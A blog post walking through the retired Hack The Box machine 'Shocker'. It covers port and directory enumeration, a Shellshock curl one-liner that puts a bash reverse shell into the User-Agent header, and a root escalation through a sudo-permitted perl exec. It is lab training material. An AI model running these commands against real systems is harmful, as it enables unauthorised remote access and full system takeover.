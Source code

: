 ```yaml
---
layout: post
title: "HTB-Shocker"
date: 2020-02-16 22:02:00 +0000
categories: HTB-Walkthrough
---
```


![shocker](/assets/img/shocker.png)

This is another box from the HTB 'retired' list, it's also very much like one of the boxes found in the PWK labs on the way to the OSCP qualification.

Jumping in with Nmap then...

`nmap -sV -Pn 10.10.10.56 |tee -a shock.txt`

```

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Unusual to find ssh on a port other than 22, a bit of security through obscurity perhaps, it may mean that it is somehow otherwise vulnerable.
Lets check out this possibility with nmap...

```

root@kali:~/HTB/prep/shocker# nmap -sSV 10.10.10.56 --script=vuln |tee -a shock.txt 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-09 18:40 GMT
Nmap scan report for 10.10.10.56
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Nothing immediately apparent, and nikto on the webport 80 gives nothing.

gobuster finds /cgi-bin with a common.txt scan...we'll scan again looking for scripts...

```

root@kali:~/HTB/retired# gobuster dir -u http://10.10.10.56/cgi-bin/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -x .sh,.txt,.php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /root/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,txt,php
[+] Timeout:        10s
===============================================================
2020/02/16 18:16:23 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.sh (Status: 403)
/.hta.txt (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.sh (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.sh (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/user.sh (Status: 200)
===============================================================
2020/02/16 18:19:33 Finished
===============================================================

```

/user.sh needs to be looked at...

```

Content-Type: text/plain

Just an uptime test script

 18:24:12 up 54 min,  0 users,  load average: 0.01, 0.00, 0.00

```

Well, nothing usefull in itself, but what it does mean (cgi-bin accessible), is that this installation of Apache will likely be vulnerable to a Shellshock exploit.

```

curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.34/6969 0>&1' http://10.10.10.56/cgi-bin/user.sh

```

This attempt works straight off the bat...Shellshock is  an important vulnerability to know about.
[Wiki on shellshock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29)

#####################

So we got user shell on the target...

```

shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

`sudo -l` is always one of the first commands I try when I get an user shell, for this sort of reason.
Getting root now is very simple. Shelly can execute a perl command or script using sudo (which gives 'super user' privileges) without having to enter a password.
We can use this to invoke a bash shell that will reflect the privileges of the user that called it. Since sudo commands are run 'as root', the resulting shell will be a root shell.

```

shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/home/shelly
ls
user.txt
cat user.txt
2exxxxxxxxxxxxxxxxxxxxxxxxxxxx33
cat /root/root.txt
5xxxxxxxxxxxxxxxxxxxxxxxxxxxxx67

```

#########################

Simple when you know.
